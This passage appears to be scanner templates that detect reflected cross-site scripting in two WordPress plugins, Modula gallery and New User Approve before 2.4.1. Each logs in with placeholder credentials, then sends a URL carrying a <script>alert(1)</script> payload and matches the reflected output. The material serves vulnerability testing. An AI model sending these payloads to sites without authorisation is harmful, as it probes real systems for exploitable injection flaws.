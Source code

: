 ```
Origin: {{RootURL}}
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```
### Step - 2
```
GET /wp-admin/edit.php?post_type=modula-gallery&page=modula-addons&a"><script>alert(1)</script> HTTP/1.1
Host: {{Hostname}}

```
### Matchers

**Type - word**
- part - body
- words
    1. &a\">\<script>alert(1)\</script>&extensions=

**Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 200

---
# WordPress New User Approve \<2.4.1 - Cross-Site Scripting
## Description
- WordPress New User Approve 2.4.1 does not escape some URLs before outputting them back in attributes, leading to reflected cross-site scripting.
- severity - medium
- tags - wordpress,xss,authenticated,wp-plugin,wpscan,wp
## Requests
### Step - 1
```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Origin: {{RootURL}}
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```
### Step - 2
```
GET /wp-admin/index.php?a%22%3E%3Cscript%3Ealert(1)%3C/script%3E HTTP/1.1
Host: {{Hostname}}

```
### Matchers
